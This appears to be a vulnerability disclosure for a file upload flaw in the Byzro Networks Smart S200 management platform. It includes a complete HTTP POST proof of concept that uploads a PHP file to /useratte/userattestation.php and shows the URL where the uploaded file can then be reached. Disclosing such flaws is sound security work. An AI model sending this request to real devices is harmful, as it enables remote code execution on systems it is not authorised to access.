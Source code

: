 There is a file upload vulnerability in Byzro Networks Smart S200 management platform

version:S200

1. Impact of vulnerabilities：Smart S200
2. Vulnerability URL:/useratte/userattestation.php
3. Recurrence of vulnerabilities
As shown in the figure login interface
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/478c59df-d7ac-4bb1-bc5e-e7aed7ff0cc6)

Construct POC and successfully upload files
POC
```
POST /useratte/userattestation.php HTTP/1.1
Host: ip:8443
Cookie: PHPSESSID=757d1fb117127c2dae45afe484983c31
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 593
Origin: https://ip:8443
Referer: https://ip:8443/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="src.php"
Content-Type: application/octet-stream

<?php echo 123;?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328?
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/377875ce-985c-4e3a-a1fe-39249542dab6)
access ip:port/boot/web/upload/weblogo/src.php
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/9e701706-2cfd-4787-869b-981a6c8258db)

